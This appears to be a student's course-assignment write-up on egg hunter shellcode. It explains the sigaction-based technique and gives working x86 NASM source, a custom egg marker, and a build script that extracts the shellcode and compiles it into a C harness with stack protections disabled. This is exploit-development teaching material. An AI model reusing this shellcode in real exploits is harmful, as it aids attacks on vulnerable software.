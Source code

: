 # Assignment 3

## What to do:

-Study about the Egg Hunter shellcode

-Create a working demo of the Egghunter

-Should be configurable for different payloads

## Solutions:

1) Study about the Egg Hunter of the shellcode: 

All the information used to solve this section was found at [Safely Searching Process Virtual Address Space].

First of all, what is an Egg Hunter?

As it is said in the paper, is a virtual address space where we can inject the code/payload in the current process. The egg is the marker that helps the payload to be located by the exploit. In this case, the sigaction method is the one selected to be implemented.

### Sigaction implementation

Nasm code given as a reproduction of the Egg Hunter using this technique:

        00000000  6681C9FF0F        or cx,0xfff
        00000005  41                inc ecx
        00000006  6A43              push byte +0x43
        00000008  58                pop eax
        00000009  CD80              int 0x80
        0000000B  3CF2              cmp al,0xf2
        0000000D  74F1              jz 0x0
        0000000F  B890509050        mov eax,0x50905090
        00000014  89CF              mov edi,ecx
        00000016  AF                scasd
        00000017  75EC              jnz 0x5
        00000019  AF                scasd
        0000001A  75E9              jnz 0x5
        0000001C  FFE7              jmp edi


2) Create the nasm code that will reproduce the eggcode.

Now that we know the exact structure for the egg hunter, we need to create the nasm code. Using this schema, here is the final code.

        global _start 

        section .text

        _start: 

        alignment:  
                or cx,0xfff         ; Page alingment

        search_shell:  
                inc ecx             ; Increment our page alignment (space "created" where the shellcode will be executed)
                push byte +0x43     ; Sigaction syscall (0x43 = 67 decimal)
                pop eax             ; eax=67
                int 0x80            ; Syscall sigaction

                cmp al,0xf2         ; If al is 242 (0xf2), then there is a sigaction error and egg hunter can not be executed
                jz alignment        ; The code keeps jumping to alignment until the comparison is set to False (searchs the egghunter)
                mov eax, 0x7A6EA1A2 ; Here is the eggcode
                mov edi, ecx        ; Moves ecx to edi (pointer to the shellcode)
                scasd   	    ; Compares (double word) eax with edi 
                jnz search_shell    ; If it did not match try the next address
                scasd
                jnz search_shell
                jmp edi             ; We found our egg identifier, pass execution

After that, we must compile the code using compile.sh. This bash script will do the following:

1) Assembly and link the nasm code:

        echo '[+] Assembling with Nasm ... '
        nasm -f elf32 -o Egg_Hunter.o Egg_Hunter.nasm

        echo '[+] Linking ...'
        ld -o Egg_Hunter Egg_Hunter.o

        echo '[+] Done!'
2) Obtain the shellcode from the binary created:

        objdump=$(objdump -d ./Egg_Hunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

3) Inject the shellcode to the c script (shellcode):

        replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump
4) Compile the shellcode

        gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode
        

